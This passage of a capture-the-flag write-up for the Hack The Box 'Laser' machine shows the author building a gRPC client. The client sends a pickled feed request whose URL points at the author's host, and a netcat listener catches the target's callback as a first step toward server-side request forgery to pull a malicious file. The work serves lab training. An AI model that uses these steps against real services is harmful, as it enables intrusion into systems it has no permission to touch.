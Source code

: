 Using this information, and the information from the PDF document I recovered, I created the above `.proto` file to tell the grpc client how to communicate with this particular service.

```text
┌──(zweilos㉿kali)-[~/htb/laser]
└─$python3 -m grpc_tools.protoc -I. --python_out=. --grpc_python_out=. laser.proto
```

Next I ran the command from the documentation for making the python libraries that would enable communication with the server. This created two files: `laser_pb2_grpc.py` and `laser_pb2.py`.

```python
import laser_pb2_grpc
import laser_pb2
import grpc
import base64
import pickle

def test():
    message = '{"version": "v1.0", "title": "Printer Feed", "feed_url": "http://10.10.15.98:8099"}'
    enc_message = base64.b64encode(pickle.dumps(message))
    #Use insecure channel since we do not have credentials
    channel = grpc.insecure_channel('printer.laserinternal.htb:9000')
    stub = laser_pb2_grpc.PrintStub(channel)
    response = stub.Feed(laser_pb2.Content(data=enc_message))
    print("Client received: " + response.message)

test()
```

I then created a python client `grpc_client.py` to connect to port 9000 on the server and send my request. I set the feed URL to be my machine to test the connection.  Next I created a netcat listener to catch the return message.

```text
┌──(zweilos㉿kali)-[~/htb/laser]
└─$ nc -lvnp 8099                                 
listening on [any] 8099 ...
connect to [10.10.15.98] from (UNKNOWN) [10.10.10.201] 55426
GET / HTTP/1.1
Host: 10.10.15.98:8099
User-Agent: FeedBot v1.0
Accept: */*
```

I got a connection back to my netcat listener, but I wasn't sure what to do with it at that point. However, since I was able to entice the server to send me connections with information I controlled I figured I could try to do a Server Side Request Forgery \(SSRF\) attack and maybe get it to pull a malicious file from my system.

```text
On successful data transmission you should see a message....
return service_pb2.Data(feed='Pushing feeds')
```

The PDF mentioned that I should get back the message `'Pushing feeds'`, but I did not get any messages back at all.  
